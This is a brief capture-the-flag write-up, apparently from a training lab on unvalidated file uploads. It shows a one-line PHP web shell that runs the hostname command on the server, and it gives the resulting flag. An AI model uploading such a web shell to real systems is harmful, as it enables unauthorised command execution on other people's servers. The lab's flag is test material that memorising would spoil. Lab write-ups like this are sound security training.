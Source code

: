 ## Challenge

Try to upload a PHP script that executes the (hostname) command on the back-end server, and submit the first word of it as the answer. 

## Solution

I create a php file which will execute the hostname command, by using the system function:

```sh
<?php system('hostname');?>
```

And upload this file to the app, then clicn on *Download* which shows me the hostname - flag `ng-621905-fileuploadsabsentverification-yxads-6d4876765-r428t`